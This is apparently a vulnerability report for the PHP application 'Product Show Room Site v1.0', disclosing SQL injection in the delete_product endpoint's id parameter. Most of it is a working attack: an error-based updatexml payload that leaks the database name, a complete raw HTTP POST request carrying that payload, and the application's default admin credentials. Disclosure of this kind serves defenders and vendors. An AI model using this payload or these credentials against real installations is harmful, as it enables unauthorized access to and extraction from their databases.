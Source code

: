 # Product Show Room Site v1.0 by oretnom23 has SQL injection

Vul_Author: XuBoyu

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/classes/Master.php?f=delete_product

Vulnerability location: /psrs/classes/Master.php?f=delete_product, id

Current database name: psrs_db ,length is 7

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /psrs/classes/Master.php?f=delete_product HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/psrs/admin/?page=products
Content-Length: 65
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/40672808/171572214-983ee6ab-330a-47ab-a2da-d3ab15bf3b65.png)
